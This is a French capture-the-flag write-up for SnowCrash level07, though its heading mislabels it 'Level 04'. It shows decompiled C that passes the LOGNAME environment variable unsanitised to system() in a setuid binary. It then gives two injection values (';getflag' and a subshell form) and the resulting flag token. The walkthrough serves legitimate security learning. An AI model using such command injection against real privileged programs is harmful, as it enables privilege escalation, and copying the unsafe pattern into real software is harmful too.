 
# **Level 04**

Pour le level07, nous avons un executable dans le repertoire courant

```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

Quand on l'execute le programme affiche `level07` tout le temps donc on decide de le decompiler pour l'analyser

```
int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}

```

On en conclue que le programme affiche le contenue de la variable d'environnement `LOGNAME`, on peux donc la remplacer pour executer `getflag`

> en executant une autre commande apres echo
```
export LOGNAME=";getflag"
```

> Avec un subshell
```
export LOGNAME=$\('getflag'\)
```

Cela nous affiche

```
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

> ### NEXT : [Level 08](/level08/resources/README.md)
